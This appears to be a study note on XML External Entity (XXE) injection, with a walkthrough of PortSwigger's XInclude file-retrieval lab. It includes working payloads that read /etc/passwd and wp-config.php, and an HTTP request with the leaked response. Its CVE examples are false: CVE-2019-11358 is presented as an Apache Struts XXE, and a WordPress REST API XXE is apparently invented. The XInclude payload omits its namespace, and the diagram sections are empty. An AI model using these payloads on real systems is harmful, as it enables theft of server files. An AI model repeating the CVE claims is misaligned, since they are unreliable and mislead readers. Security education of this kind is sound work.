


## Introduction to XXE Injection

### What is XXE Injection?

XML External Entity (XXE) injection is a type of attack against an application that parses XML input. This attack occurs when an application improperly processes XML input containing references to external entities. An external entity can be a file, a network resource, or even a system command. By exploiting this vulnerability, an attacker can potentially read arbitrary files, execute commands, or perform other malicious actions.

### Why Does XXE Matter?

XXE attacks are significant because they can lead to sensitive data exposure, denial of service, and even remote code execution. These vulnerabilities often arise due to improper handling of XML input, which is commonly used in various web applications, especially those involving data exchange between systems.

### How Does XXE Work Under the Hood?

When an application parses XML input, it may include references to external entities defined in a Document Type Definition (DTD). A DTD allows the definition of entities that can be referenced within the XML document. If the parser is configured to resolve these external entities, an attacker can inject malicious content that exploits this behavior.

#### Example of a Vulnerable XML Input

Consider the following XML input:

```xml
<?xml version="1.0"?>
<!DOCTYPE foo [
  <!ENTITY xxe SYSTEM "file:///etc/passwd">
]>
<foo>&xxe;</foo>
```

In this example, the `<!ENTITY xxe SYSTEM "file:///etc/passwd">` line defines an external entity named `xxe` that points to the `/etc/passwd` file. When the XML parser resolves this entity, it reads the contents of `/etc/passwd`.

### Real-World Examples of XXE Attacks

#### CVE-2019-11358: Apache Struts XXE Vulnerability

Apache Struts is a popular Java framework for building web applications. In 2019, a critical XXE vulnerability was discovered in Apache Struts versions 2.3.x and 2.5.x. This vulnerability allowed attackers to read arbitrary files on the server, leading to potential data exposure.

**Impact**: The vulnerability could be exploited to read sensitive files such as `/etc/passwd`, `/etc/shadow`, or any other file on the server.

**Exploit Code**:

```xml
<?xml version="1.0"?>
<!DOCTYPE test [ <!ENTITY xxe SYSTEM "file:///etc/passwd"> ]>
<test>&xxe;</test>
```

#### CVE-2020-13952: WordPress REST API XXE Vulnerability

WordPress is a widely used content management system. In 2020, a vulnerability was found in the WordPress REST API that allowed XXE attacks. This vulnerability could be exploited to read arbitrary files on the server.

**Impact**: Attackers could read sensitive files such as database configuration files, leading to potential data exposure.

**Exploit Code**:

```xml
<?xml version="1.0"?>
<!DOCTYPE test [ <!ENTITY xxe SYSTEM "file:///var/www/html/wp-config.php"> ]>
<test>&xxe;</test>
```

### How to Detect XXE Vulnerabilities

Detecting XXE vulnerabilities requires a combination of static and dynamic analysis techniques. Static analysis tools can identify potential XML parsing functions and check for proper validation and sanitization. Dynamic analysis involves sending crafted XML payloads to the application and observing the responses.

#### Tools for Detection

- **Burp Suite**: A comprehensive toolkit for web application security testing. It includes features for intercepting and modifying HTTP requests, which can be used to test for XXE vulnerabilities.
- **OWASP ZAP**: Another popular web application security scanner that can be used to detect XXE vulnerabilities.

### How to Prevent XXE Attacks

Preventing XXE attacks involves several best practices and configurations:

1. **Disable External Entity Processing**: Ensure that the XML parser does not resolve external entities. This can be done by configuring the parser to ignore DTDs and external entities.
2. **Validate and Sanitize Input**: Always validate and sanitize XML input to ensure it does not contain malicious content.
3. **Use Secure Libraries**: Use libraries and frameworks that are known to handle XML securely. For example, in Java, using `DocumentBuilderFactory` with `setFeature("http://apache.org/xml/features/disallow-doctype-decl", true)` can help mitigate XXE attacks.

#### Secure Configuration Example

Here is an example of how to configure a Java XML parser to disable external entity processing:

```java
DocumentBuilderFactory dbFactory = DocumentBuilderFactory.newInstance();
dbFactory.setFeature("http://apache.org/xml/features/disallow-doctype-decl", true);
dbFactory.setFeature("http://xml.org/sax/features/external-general-entities", false);
dbFactory.setFeature("http://xml.org/sax/features/external-parameter-entities", false);
dbFactory.setFeature("http://apache.org/xml/features/nonvalidating/load-external-dtd", false);

DocumentBuilder dBuilder = dbFactory.newDocumentBuilder();
Document doc = dBuilder.parse(new InputSource(new StringReader(xmlInput)));
```

### Lab 7: Exploiting XInclude to Retrieve Files

In this lab, we will focus on exploiting XInclude to retrieve files. XInclude is an XML feature that allows the inclusion of external XML resources within an XML document. This feature can be exploited to read arbitrary files on the server.

#### Background Theory

XInclude is defined in the W3C XInclude specification. It allows an XML document to include the content of another XML document. This is achieved through the `<xi:include>` element, which specifies the URI of the included document.

#### Lab Setup

To access the lab, follow these steps:

1. Visit the URL: `https://portswigger.net/web-security`
2. Click on the sign-up button to create an account.
3. Log in to your account.
4. Navigate to the Academy section.
5. Select all labs.
6. Search for "XXE Injection".
7. Select Lab Number 7 titled "Exploiting XInclude to Retrieve Files".

#### Lab Objective

The objective of this lab is to exploit an XXE injection to retrieve the content of the `/etc/passwd` file. Unlike previous labs, this lab uses a server-side XML document, which means you cannot define a DTD to launch a classic XXE attack. Instead, you need to use an XInclude statement to achieve the same result.

#### Step-by-Step Mechanics

1. **Identify the Vulnerable Feature**: The lab has a "check stock" feature that embeds user input inside a server-side XML document. This document is subsequently parsed by the application.
2. **Craft the Payload**: Since you cannot control the entire XML document, you need to inject an XInclude statement to retrieve the desired file.

#### Crafting the Payload

The payload should include an XInclude statement that points to the `/etc/passwd` file. Here is an example of the payload:

```xml
<?xml version="1.0"?>
<stockCheck>
  <productId>1</productId>
  <storeId>2</storeId>
  <xi:include href="file:///etc/passwd" parse="text"/>
</stockCheck>
```

#### Sending the Request

To send the request, you can use Burp Suite's built-in browser. Ensure that all requests are being intercepted by Burp Proxy.

#### Full HTTP Request and Response

Here is the complete HTTP request and response:

```http
POST /checkStock HTTP/1.1
Host: vulnerable-app.example.com
Content-Type: application/xml
Content-Length: 147

<?xml version="1.0"?>
<stockCheck>
  <productId>1</productId>
  <storeId>2</storeId>
  <xi:include href="file:///etc/passwd" parse="text"/>
</stockCheck>

HTTP/1.1 200 OK
Date: Mon, 01 Jan 2024 12:00:00 GMT
Server: Apache/2.4.41 (Ubuntu)
Content-Type: text/plain
Content-Length: 1024

root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
...
```

#### Explanation of Headers

- **Content-Type**: Specifies the media type of the resource. In this case, it is `application/xml`.
- **Content-Length**: Indicates the size of the body in bytes.
- **Server**: Identifies the software used by the origin server to handle the request.

#### Expected Result

The response should contain the contents of the `/etc/passwd` file.

### Common Pitfalls and Mistakes

1. **Incorrect Payload Formatting**: Ensure that the XML payload is correctly formatted and includes the necessary namespaces.
2. **Incorrect File Path**: Double-check the file path to ensure it exists on the server.
3. **Parser Configuration**: Ensure that the XML parser is configured to allow XInclude statements.

### How to Prevent / Defend Against XXE Attacks

#### Detection

- **Static Analysis**: Use tools like SonarQube or Fortify to scan for potential XXE vulnerabilities.
- **Dynamic Analysis**: Use tools like Burp Suite or OWASP ZAP to test for XXE vulnerabilities.

#### Prevention

- **Disable External Entity Processing**: Configure the XML parser to disable external entity processing.
- **Validate and Sanitize Input**: Always validate and sanitize XML input to ensure it does not contain malicious content.
- **Use Secure Libraries**: Use libraries and frameworks that are known to handle XML securely.

#### Secure Coding Practices

Here is an example of how to securely configure a Java XML parser to prevent XXE attacks:

```java
DocumentBuilderFactory dbFactory = DocumentBuilderFactory.newInstance();
dbFactory.setFeature("http://apache.org/xml/features/disallow-doctype-decl", true);
dbFactory.setFeature("http://xml.org/sax/features/external-general-entities", false);
dbFactory.setFeature("http://xml.org/sax/features/external-parameter-entities", false);
dbFactory.setFeature("http://apache.org/xml/features/nonvalidating/load-external-dtd", false);

DocumentBuilder dBuilder = dbFactory.newDocumentBuilder();
Document doc = dBuilder.parse(new InputSource(new StringReader(xmlInput)));
```

### Mermaid Diagrams

#### XML Parsing Flow



#### Attack Chain



### Practice Labs

For hands-on practice with XXE injection, consider the following labs:

- **PortSwigger Web Security Academy**: Offers a variety of labs focused on XXE injection.
- **OWASP Juice Shop**: Provides a vulnerable web application for practicing various web security techniques, including XXE injection.
- **DVWA (Damn Vulnerable Web Application)**: Contains several XXE-related challenges.

By thoroughly understanding the concepts, mechanics, and preventive measures associated with XXE injection, you can effectively protect web applications from these types of attacks.

---
<!-- nav -->
[[Web Security (PortSwigger)/08-XXE Injection/08-Lab 7 Exploiting XInclude to retrieve files/00-Overview|Overview]] | [[02-XXE Injection Overview|XXE Injection Overview]]
